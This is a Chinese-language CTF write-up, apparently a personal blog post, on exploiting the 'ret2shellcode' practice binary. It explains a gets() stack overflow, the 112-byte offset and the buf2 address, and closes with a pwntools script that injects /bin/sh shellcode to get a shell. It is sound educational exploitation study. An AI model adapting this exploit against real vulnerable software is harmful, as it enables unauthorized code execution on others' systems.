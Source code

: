 ```yaml
---
layout:     post
title:      pwn学习（二）：栈溢出注入shellcode
subtitle:   利用栈溢出获取控制权
date:       2021-08-08
author:     Hongtai S
header-img: img/6.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - pwn
    - shellcode
---
```

# 栈溢出注入shellcode#

## ret2shellcode题目分析 ##

将文件ret2shellcode拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/08/i3YNMK2IVwse6l9.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

程序中没有能够进入shell的函数，但是构造了一个环境变量buf2，存放在bbs区。检查程序有没有开PIE，说明每次运行bbs区都不会改变地址。

![2.PNG](https://i.loli.net/2021/08/08/JRdMm8bkKG2wLFa.png)

因此可以利用这个缓冲区承载shellcode并执行，而strncpy函数刚好可以将gets接受的内存复制到缓冲区，覆盖的跳转地址即为buf2的基址。利用Ida查看buf2的基址是0x0804A080：

![3.PNG](https://i.loli.net/2021/08/08/5DKWZgBxSlCLeTR.png)

gdb动态调试验证：

到gets()函数，输入字符串AAAA后查看栈中情况：

![4.PNG](https://i.loli.net/2021/08/08/cdMVUWjxl9n7wFR.png)

可以看到栈中字符串的首地址为0xffffd12c，ebp的首地址为0xffffd198，他们之间的距离为0xffffd12c-0xffffd198 = 108，算上ebp需要填充的字符为b'A' * 108 + 'B' * 4，左后在加上跳转的地址即可改变程序的执行流。但是此时发现程序无处可跳转，因为没有获取shell的命令，因此利用buf2写入获取shell的命令，跳转到buf2的基址即可，而填充栈的字符中刚好可以将shellcode写入栈，因此填充字符的前半部分改为获取shell的shellcode，然后填充至112字符即可。

![5.PNG](https://i.loli.net/2021/08/08/9KksiCUj2ZJXmHY.png)

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2shellcode")

#接受程序的一行打印
io.recvline()

#获取能够获得shell的二进制代码
shellcode = asm(shellcraft.sh())

#构造payload,用ljust函数帮助填充shellcode至112个字符大小
payload = shellcode.ljust(112, b'A') + p32(0x0804A080)

#发送构造的数据
io.sendline(payload)

#获取shell交互
io.interactive()

```

运行脚本成功获取shell权限
![6.PNG](https://i.loli.net/2021/08/08/xOerPU2sqiYw1nD.png)



